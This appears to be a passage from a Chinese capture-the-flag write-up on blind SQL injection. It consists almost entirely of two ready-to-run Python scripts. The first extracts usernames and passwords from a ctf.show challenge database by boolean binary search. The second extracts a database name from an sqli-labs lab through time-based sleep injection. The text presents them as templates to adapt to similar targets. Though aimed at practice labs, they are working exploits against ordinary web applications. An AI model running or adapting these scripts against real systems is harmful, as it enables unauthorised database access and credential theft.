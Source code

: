 其它相同类型的通过更改相关部分通解，如：

```
import requests
session = requests.session()
url = "http://4cd4bfb2-24b0-4483-83bf-bad37a9a29b5.challenge.ctf.show/api/v4.php?id=1'"
def db():
    name = ''
    for i in range(1,50):
        begin =32
        end =128
        tmp = (begin+end)//2
        while begin < end :
            paramsGet = url+ "/**/and/**/ascii(substr((select group_concat(username,password) from ctfshow_user4 where username='flag'),{0},1))>{1}--+".format(i,tmp)
            response = session.get(paramsGet)
            if "admin" in response.text:
                begin = tmp + 1
                tmp = (begin+end)//2
            else:
                end = tmp
                tmp = (begin+end)//2
        if(tmp==32):
            break
        name += chr(tmp)
        print(name)
db()
```

#### 睡眠注入

```
import requests
import time
session = requests.session()
url = "http://192.168.2.60/sqli/Less-9/?id=1'"
def db():
    name = ''
    for i in range(1,10):
        begin =32
        end =128
        tmp = (begin+end)//2
        while begin < end :
            start_time=time.time()
            paramsGet = url+ "/**/and/**/if(ascii(substr(database(),{0},1))>{1},1,sleep(2))--+".format(i,tmp)
            response = session.get(paramsGet)
            end_time=time.time() 
            if end_time-start_time<2:
                begin = tmp + 1
                tmp = (begin+end)//2
            else:
                end = tmp
                tmp = (begin+end)//2
        if(tmp==32):
            break
        name += chr(tmp)
        print(name)
db()
```
